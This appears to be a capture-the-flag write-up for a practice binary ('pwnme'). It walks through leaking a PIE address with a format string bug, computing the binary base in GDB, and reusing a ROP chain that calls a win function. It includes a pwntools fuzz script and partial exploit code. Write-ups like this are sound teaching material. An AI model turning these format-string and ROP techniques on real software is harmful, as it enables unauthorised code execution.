




# Intro 6 

checksec:
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

This one is similar to intro 5 but the difference this time is we are not given leak. Instead the main function has a printf() that is vulnerable to a format string attack



We can use this to leak an address of the binary. 

Sending 3 %p's we can confirm it is vulnerable



Sending 3 %p's gives 3 different leaks. You can send 50 or 100 to try and find a valid stack address but you can have issues doing this so it is easier to fuzz them one by one using the %x$p where x is the postion you want to leak.

My fuzz script:
```
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF('./pwnme', checksec=False)
context.terminal = ['alacritty', '-e', 'zsh', '-c']

io = process(elf.path)

i = 1
while i <= 100:
    try:
        io = process(elf.path, level='error')
        payload = f"%{i}$p"
        io.sendline(payload)
        leak = io.recv().strip().split(b'?',1)[1]
        print(f"Offset {i} has {leak}")
        i += 1
    except EOFError:
        pass
```

this gives us a return like this:
```
Offset 1 has b'0x7f1281140a03'
Offset 2 has b''
Offset 3 has b'0x7fc88ef30980'
Offset 4 has b'0x7ffdcbbc3e60'
Offset 5 has b'(nil)'
Offset 6 has b'0x560070243625'
Offset 7 has b'0x55846f0b30e0'
Offset 8 has b'0x7ffd767f5df0'
Offset 9 has b'0x56259886322e'
Offset 10 has b'0x560d0e08e2f0'
```

Finding a valid address to use involves some trial and error. 

The address I used is "%33$p"

To workout the offset of this leak in order to get the base address I used GDB.

First run the program using GDB, and send %33$p

The leak I get is "0x55d97e11b0e0"

GDB tells us this is "\_start"
```
pwndbg> x/s 0x55d97e11b0e0
0x55d97e11b0e0 <_start>:
```



The offset for this is 0x10e0 so the base address will be our leak - 0x10e0

```
leak = io.recv().strip().split(b'?',1)[1]
leak = int(leak,16)
success(f"got leak @ {hex(leak)}")
base_addr = leak - 0x10e0
success(f"got main addr @ {hex(base_addr)}")
```

We can confirm this by running the script looking at the output and checking with GDB



```
pwndbg> x/s 0x557dd19ee000
0x557dd19ee000:	"\177ELF\002\001\001"
```

the ```"\177ELF\002\001\001"```  is the start of the binary so we have got the base.

The "libs" command can also be used to check this.

Now that I have the leak and the base address the exploit is the same as intro5

```
payload = b'A' * OFFSET
rop.raw(rop.ret)
rop.win(0xdeadbeefdeadbeef)
rop.win()
payload += rop.chain()

io.sendline(payload)
```


